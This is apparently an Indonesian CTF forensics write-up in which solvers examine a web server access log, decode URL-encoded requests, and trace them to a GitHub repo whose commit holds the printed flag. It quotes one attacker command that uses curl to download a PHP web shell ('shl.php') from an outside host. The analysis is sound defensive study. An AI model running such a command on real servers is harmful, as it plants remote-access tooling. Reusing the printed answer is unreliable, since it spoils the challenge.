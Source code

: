 ## Who the Hack?

<details>
  <summary>Deskripsi</summary>
  
  > ---------- Email ----------
  > 
  > Subject: URGENT! Anomali Sistem From: farel@halubank.local To: itsec+dfir@halubank.local <2023-08-12 19:46:26>
  >
  > Dear Tim IT Security,
  > 
  > Tim monitoring mendapati bahwa sistem aplikasi mengalami down saat jam makan siang tadi, namun hanya beberapa menit saja. Berikut ini saya lampirkan access.log dari server terkait, mohon untuk diperiksa segera, apakah ada anomali yang terjadi atau tidak.
  > 
  > Terima kasih.
  > 
  > [Attachments](https://drive.google.com/file/d/1ouyE7lotHqvizz4A4LN-fiHWWj9iX3WT/view)
  > 
  > Author: novran
  
</details>

![1](img/1.png)

Diberikan sebuah file zip berisi log [Who the Hack?](https://drive.google.com/file/d/1ouyE7lotHqvizz4A4LN-fiHWWj9iX3WT/view) dan setelah di telaah lagi ada chall yang menunjukan penyelesaian untuk challenge ini sebenarnya ada pada file challenge satunya yaitu: [Romeo and Dulliete](https://drive.google.com/file/d/17ZYM5bBvk69eGft2zA3sMhQwICnxwLNd/view?usp=sharing) langsung saja di analyze file satunya.

Di kedua file _Dulliet.txt_ & _Romeo.txt_ tersebut, kami menemukan banyak log access github

![2](img/2.png)

Kami coba decode urlnya dan didapat command bash,

![3](img/3.png)

```
curl -s "https://raw.githubusercontent.com/graycatninja/own/main/shl.php" > xhl
```

![4](img/4.png)

Hmm.. kemudian kami coba cek dengan username <b>graycatninja</b> dengan akses ke repo https://github.com/graycatninja/own

![5](img/5.png)

Terdapat 4 commits pada repo

![6](img/6.png)

Pada commit ke-2, Create flag `5f760e1` ada flagnya

<details>
  <summary>Flag</summary>
  
  > `0byteCTF{W3_Suff3r_M0r3_0ft3n_1n_1m4g1n4t10n_Th4n_1n_R34l1ty}`
  
</details>

<details>
  <summary>*note</summary>
  
  > Mungkin harusnya flag ini disubmit pada chall Romeo & Dulliet karena ini filenya, tetapi karna entah kenapa dicoba submit tidak bisa, lalu kami coba di Who the Hack? dan ahkhirnya bisa.
  
</details>
